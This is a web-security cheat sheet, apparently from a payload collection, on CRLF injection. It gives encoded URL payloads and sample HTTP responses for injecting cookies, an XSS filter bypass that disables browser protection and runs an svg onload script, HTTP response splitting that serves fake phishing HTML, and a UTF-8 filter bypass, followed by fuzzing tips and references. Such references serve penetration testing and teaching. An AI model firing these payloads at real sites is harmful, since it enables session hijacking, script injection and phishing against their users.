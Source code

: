 +++
title = "CRLF Injection"
date = "2023-03-23"
description = "All about CRLF injection techniques, methods, payloads, how/why/when they work."
include_toc = 'true'
+++

# Carriage Return Line Feed

> The term CRLF refers to Carriage Return (ASCII 13, \r) Line Feed (ASCII 10, \n). They're used to note the termination of a line, however, dealt with differently in today’s popular Operating Systems. For example: in Windows both a CR and LF are required to note the end of a line, whereas in Linux/UNIX a LF is only required. In the HTTP protocol, the CR-LF sequence is always used to terminate a line.
> A CRLF Injection attack occurs when a user manages to submit a CRLF into an application. This is most commonly done by modifying an HTTP parameter or URL.
## Summary

- [CRLF - Add a cookie](#crlf---add-a-cookie)
- [CRLF - Add a cookie - XSS Bypass](#crlf---add-a-cookie---xss-bypass)
- [CRLF - Write HTML](#crlf---write-html)
- [CRLF - Filter Bypass](#crlf---filter-bypass)
- [References](#references)

## CRLF - Add a cookie

Requested page

```http
http://www.example.net/%0D%0ASet-Cookie:mycookie=myvalue
```

HTTP Response

```http
Connection: keep-alive
Content-Length: 178
Content-Type: text/html
Date: Mon, 09 May 2016 14:47:29 GMT
Location: https://www.example.net/[INJECTION STARTS HERE]
Set-Cookie: mycookie=myvalue
X-Frame-Options: SAMEORIGIN
X-Sucuri-ID: 15016
x-content-type-options: nosniff
x-xss-protection: 1; mode=block
```

## CRLF - Add a cookie - XSS Bypass

Requested page

```powershell
http://example.com/%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23%0d%0a<svg%20onload=alert(document.domain)>%0d%0a0%0d%0a/%2f%2e%2e
```

HTTP Response

```http
HTTP/1.1 200 OK
Date: Tue, 20 Dec 2016 14:34:03 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 22907
Connection: close
X-Frame-Options: SAMEORIGIN
Last-Modified: Tue, 20 Dec 2016 11:50:50 GMT
ETag: "842fe-597b-54415a5c97a80"
Vary: Accept-Encoding
X-UA-Compatible: IE=edge
Server: NetDNA-cache/2.2
Link: <https://example.com/[INJECTION STARTS HERE]
Content-Length:35
X-XSS-Protection:0
23
<svg onload=alert(document.domain)>
0
```

## CRLF - Write HTML

Requested page

```http
http://www.example.net/index.php?lang=en%0D%0AContent-Length%3A%200%0A%20%0AHTTP/1.1%20200%20OK%0AContent-Type%3A%20text/html%0ALast-Modified%3A%20Mon%2C%2027%20Oct%202060%2014%3A50%3A18%20GMT%0AContent-Length%3A%2034%0A%20%0A%3Chtml%3EYou%20have%20been%20Phished%3C/html%3E
```

HTTP response

```http
Set-Cookie:en
Content-Length: 0
HTTP/1.1 200 OK
Content-Type: text/html
Last-Modified: Mon, 27 Oct 2060 14:50:18 GMT
Content-Length: 34
<html>You have been Phished</html>
```

## CRLF - Filter Bypass

Using UTF-8 encoding

```http
%E5%98%8A%E5%98%8Dcontent-type:text/html%E5%98%8A%E5%98%8Dlocation:%E5%98%8A%E5%98%8D%E5%98%8A%E5%98%8D%E5%98%BCsvg/onload=alert%28innerHTML%28%29%E5%98%BE
```

Remainder:

* %E5%98%8A = %0A = \u560a
* %E5%98%8D = %0D = \u560d
* %E5%98%BE = %3E = \u563e (>)
* %E5%98%BC = %3C = \u563c (<)

## Labs

* [https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-request-splitting-via-crlf-injection](https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-request-splitting-via-crlf-injection)

## Exploitation Tricks
* Try to search for parameters that lead to redirects and fuzz them
* Also test the mobile version of the website, sometimes it is different or uses a different backend

## References

* https://www.owasp.org/index.php/CRLF_Injection
* https://vulners.com/hackerone/H1:192749